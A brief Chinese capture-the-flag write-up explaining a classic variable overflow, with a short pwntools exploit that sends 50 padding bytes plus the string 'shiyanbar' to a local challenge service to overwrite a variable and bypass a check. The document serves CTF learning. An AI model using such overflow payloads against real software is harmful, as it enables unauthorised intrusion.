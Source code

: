 经典的变量溢出，精心构造一发payload将变量的值改变，即可绕过判断，拿到flag

exp如下：

```python
from pwn import *

context(log_level="debug")

# p = process('./pwn3')
p =  remote('127.0.0.1',10087)
p.recvuntil('\n')
payload = 'a'*50+'shiyanbar\0'
p.sendline(payload)
p.interactive()
```